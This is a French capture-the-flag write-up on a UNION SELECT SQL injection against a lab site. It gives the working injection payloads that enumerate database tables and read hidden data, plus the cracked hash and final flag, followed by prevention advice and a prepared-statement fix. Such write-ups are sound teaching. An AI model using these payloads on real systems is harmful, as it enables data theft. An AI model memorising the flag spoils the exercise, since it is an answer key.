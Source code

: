 # Injection SQL avec UNION SELECT

## 1. Introduction
J'ai exploité une **injection SQL de type UNION SELECT** pour récupérer des informations sensibles depuis la base de données. Cette attaque m'a permis de révéler des tables cachées, de lire des données confidentielles, et finalement de décoder un **flag** en utilisant des algorithmes de hachage.

## 2. Comment j'ai trouvé la faille
En examinant le comportement des paramètres dans l'URL, j'ai suspecté une **injection SQL**. J'ai utilisé une **condition fausse (`1 AND 1=2`)** suivie d'un **UNION SELECT** pour combiner mes requêtes avec celles du serveur.

### **Requête pour lister les images**
```sql
1 OR TRUE
```

Cela m'a permis de réveler la liste des images.

![Première injection](images/1.png)

### **Requête pour lister les tables**
```sql
1 AND 1=2 UNION SELECT table_schema, table_name FROM information_schema.tables;
```
Cela m'a permis de révéler les schémas et les noms de tables dans la base de données, y compris une table intéressante appelée `list_images`.

![Deuxième injection](images/2.png)

### **Requête pour lire les colonnes de list_images**
```sql
1 AND 1=2 UNION SELECT comment, title FROM list_images;
```
En interrogeant cette table, j'ai obtenu l'information suivante :

```
Title: Hack me ?
Url : If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
```

![Troisième injection](images/3.png)

## 3. Exploitation de la faille
J'ai ensuite utilisé l'information obtenue pour déchiffrer le flag :

1. **Déchiffrement du MD5**
```
1928e8083cf461a51303633093573c46  =>  albatroz
```
J'ai utilisé un site de décryptage MD5 en ligne pour trouver le mot **albatroz**.

![Decryptage](images/4.png)

2. **Conversion en SHA-256**
En utilisant le terminal, j'ai converti le texte déchiffré en SHA-256 :
```bash
echo -n "albatroz" | sha256sum
```
Ce qui m'a donné le flag final :
```
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

![Flag](images/5.png)

## 4. Impact de la faille
Cette faille permet de :
- Lister toutes les tables de la base de données.
- Lire les données sensibles depuis n'importe quelle table.
- Contourner les contrôles d'accès en manipulant les requêtes SQL.
- Déchiffrer des informations confidentielles.

## 5. Comment prévenir cette faille
Pour éviter cette injection SQL, il faut :
- **Utiliser des requêtes préparées** (`Prepared Statements`) qui séparent les entrées utilisateur de la logique SQL.
- **Échapper les entrées utilisateur** avec des fonctions dédiées selon le langage de programmation utilisé.
- **Valider les entrées** pour s'assurer qu'elles correspondent aux types de données attendus (par exemple, des entiers pour les IDs).
- **Limiter les permissions de l'utilisateur SQL** pour restreindre l'accès aux schémas et aux tables critiques.

## 6. Comment corriger la faille
Voici un exemple de requête préparée en PHP pour éviter cette injection :
```php
$stmt = $pdo->prepare("SELECT comment, title FROM list_images WHERE id = :id");
$stmt->execute(['id' => $_GET['id']]);
$result = $stmt->fetch();
```
Ce code utilise des **paramètres nommés** et des **requêtes préparées** pour protéger la base de données.

## 7. Conclusion
J'ai utilisé une **injection SQL UNION SELECT** pour énumérer les tables de la base de données, lire des données sensibles, et décoder un flag à l'aide de **MD5** et **SHA-256**. Cette exploitation montre l'importance des **requêtes préparées**, de la **validation stricte des entrées utilisateur**, et de la **gestion des permissions SQL** pour protéger les applications web.


